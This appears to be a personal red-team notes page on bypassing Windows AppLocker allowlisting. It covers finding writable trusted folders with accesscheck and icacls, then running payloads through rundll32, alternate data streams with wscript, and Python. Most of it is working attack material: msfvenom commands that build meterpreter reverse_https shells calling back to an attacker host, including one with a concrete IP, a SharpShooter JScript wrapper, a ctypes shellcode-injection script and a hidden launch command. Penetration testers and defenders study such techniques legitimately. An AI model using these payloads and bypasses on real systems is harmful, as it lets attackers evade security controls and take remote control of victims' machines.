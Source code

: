 ```yaml
---
title: Bypassing application whitelisting
tags:
  - breach
  - operations
  - bypass
  - application
  - whitelist
  - allowlist
  - applocker
  - python
  - jscript
  - ctypes
  - sysinternals
  - icacls
  - accesscheck
  - rundll32
---
```


## AppLocker

**AppLocker** is used to manage and enforce policies for executing files like
`.exe`, `.dll`, and various Microsoft first-party scripting languages like
**PowerShell**, i.e. `.ps1`. This article and related pages discuss how to
bypass some of these policies to gain code execution.

## Finding trusted folders

To drop executable payloads on a target, we can use the
[Sysinternals](https://learn.microsoft.com/en-us/sysinternals/)
`accesscheck.exe` application to search for writeable directories trusted by
AppLocker.

- `-w` to locate writeable directores
- `-u` to suppress any errors
- `-s` to recursively search through all subdirectories

```powershell
accesscheck.exe "${USERNAME}" "${DIRECTORY}" -wus
```

`icacls.exe` is a Windows application we can use to dump the **access control
list (ACL)** for a directory. Here's an example invocation of `icacls.exe`:

```powershell
PS> icacls.exe C:\Windows\Tasks
C:\Windows\Tasks NT AUTHORITY\Authenticated Users:(RX,WD)
                 BUILTIN\Administrators:(F)
                 BUILTIN\Administrators:(OI)(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(F)
                 NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
                 CREATOR OWNER:(OI)(CI)(IO)(F)
```

Above shows that `NT AUTHORITY\Authenticated Users` has `ReadExecute` and
`WriteDirectory` permissions. If AppLocker allows code execution from the
`C:\Windows` directory, an unprivileged, authenticated user would be able to
gain code execution.

## Bypass with rundll32

Unmanaged code within DLLs can be used to bypass default AppLocker rules, as
code execution is restricted to executables, not DLLs. With this, we can invoke
the following command to execute DLLs and bypass AppLocker restrictions:

```powershell
rundll32 "${DLL_PATH}","${EXPORTED_METHOD}"
```

The above example invocation will load and execute the provided DLL, invoking
the specified exported method. AppLocker can also publish rules to restrict DLL
execution to particular directories, however, we can also use the
directory-based bypass discussed in the previous section,
[[bypassing-application-whitelisting#Finding trusted folders|Finding trusted folders]],
to execute DLLs.

### Executing an msfvenom DLL payload

The following invocation will generate a **meterpreter** DLL payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=${LHOST} LPORT=${LPORT} -f dll -o payload.dll
```

We can execute the payload on a Windows host to obtain a reverse shell by
invoking the following:

```powershell
rundll32 .\payload.dll,entrypoint
```

## Bypass with alternate data streams

The Windows NTFS filesystem has a feature that allows data to be stored in
**Alternate Data Streams (ADS)**. If we're able to write our text-based
payloads, for example Jscript, to an file's ADS contained with a trusted
directory, we can bypass directory-based restrictions.

The following invocation will generate a raw meterpreter shellcode payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.190 LPORT=8443 -f raw -o shell.txt
```

We use the [SharpShooter](https://github.com/X0RW3LL/SharpShooter/tree/master)
utility to wrap our meterpreter shellcode payload in a **JScript** runner for
.NET Framework version 4:

```bash
python ~/opt/SharpShooter/SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output shell
```

We use techniques described in our previous section,
[[bypassing-application-whitelisting#Finding trusted folders|Finding trusted folders]],
to find a candidate text file that we can write an ADS to. Here's an example
invocation of writing our `shell.js` payload to an ADS:

```cmd
type shell.js > "${FILE_PATH}:shell.js"
```

In our example, we'll use this **TeamViewer** log file:

```cmd
type shell.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:shell.js"
```

To execute the payload, we'll use `wscript` to execute the contents of the
JScript payload in the file's ADS:

```cmd
wscript "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:shell.js"
```

## Other bypass methods

AppLocker only enforces rules against native file types. Code execution with
third-party scripting engines like **Python** or **Perl** are not restricted.
Similarly, we could also gain code execution with **Java**. There is also a lack
of enforcement against VBA code inside Microsoft Office documents, highlighting
the usefulness of Office documents in client-side attacks.

Here's an example invocation of `msfvenom` to create a Python meterpreter
reverse shell payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=${LHOST} LPORT=${LPORT} -f python -o payload.py
```

The following Python script uses `ctypes` to inject our shellcode into the
current Python process and executes it:

```python
import ctypes
from sys import exit


class Constants:
    PAGE_EXECUTE_READWRITE = 0x40
    PAGE_SIZE = 0x3000


def main() -> int:
    buf = b""
    buf += b"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51"
    # ...
    buf += b"\xff\xd5"

    kernel32 = ctypes.windll.kernel32
    kernel32.VirtualAlloc.restype = ctypes.c_void_p

    segment = kernel32.VirtualAlloc(
        None,
        len(buf),
        Constants.PAGE_SIZE,
        Constants.PAGE_EXECUTE_READWRITE,
    )

    kernel32.RtlMoveMemory.argtypes = (
        ctypes.c_void_p,
        ctypes.c_void_p,
        ctypes.c_size_t,
    )

    kernel32.RtlMoveMemory(segment, ctypes.create_string_buffer(buf), len(buf))
    ctypes.cast(segment, ctypes.CFUNCTYPE(None))()

    return 0


if __name__ == "__main__":
    exit(main())
```

Invoke the Python meterpreter reverse shell payload on a Windows host with the
following:

```powershell
Start-Process `
    -FilePath (Get-Command python).Source `
    -ArgumentList @((Resolve-Path -Path ".\ReverseShell.py").Path) `
    -WindowStyle Hidden
```

